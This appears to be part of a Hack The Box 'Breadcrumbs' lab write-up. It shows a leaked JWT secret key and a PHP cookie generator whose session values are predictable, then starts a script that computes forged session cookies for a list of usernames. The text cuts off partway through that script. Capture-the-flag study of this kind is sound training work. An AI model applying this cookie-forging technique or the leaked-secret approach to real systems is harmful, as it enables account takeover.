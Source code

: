 ```bash
````



- authController.php

![](https://i.imgur.com/4Fsi7DY.png)

-  Found secret key create jwt 

```bash
secret key : 6cb9c1a2786a483ca5e44571dcc5f3bfa298593a6376ad92185c3258acd5591e
```

![](https://i.imgur.com/LWBMofk.png)

- cookie.php

![](https://i.imgur.com/F5urvLZ.png)


```php
╭─root@kali ~/Desktop/htb/Breadcrumbs/www ‹master*› 
╰─# cat cookie.php                                 
<?php
 **
 * @param string $username  Username requesting session cookie
 * 
 * @return string $session_cookie Returns the generated cookie
 * 
 * @devteam
 * Please DO NOT use default PHPSESSID; our security team says they are predictable.
 * CHANGE SECOND PART OF MD5 KEY EVERY WEEK
 * *
function makesession($username){
    $max = strlen($username) - 1;
    $seed = rand(0, $max);
    $key = "s4lTy_stR1nG_".$username[$seed]."(!528./9890";
    $session_cookie = $username.md5($key);

    return $session_cookie;
}
```


## making cookie --> [online compiler](https://onecompiler.com/php/3x3f2dcmr)

```php
<?php
/**
 * @param string $username  Username requesting session cookie
 * 
 * @return string $session_cookie Returns the generated cookie
 * 
 * @devteam
 * Please DO NOT use default PHPSESSID; our security team says they are predictable.
 * CHANGE SECOND PART OF MD5 KEY EVERY WEEK
 * */

$arrusernames = ["alex","paul","jack","olivia","john","william","emma","lucas","sirine","juliette","support"];
$arrlen = count($arrusernames);


function makesession($username){
    $max = strlen($username) - 1;
```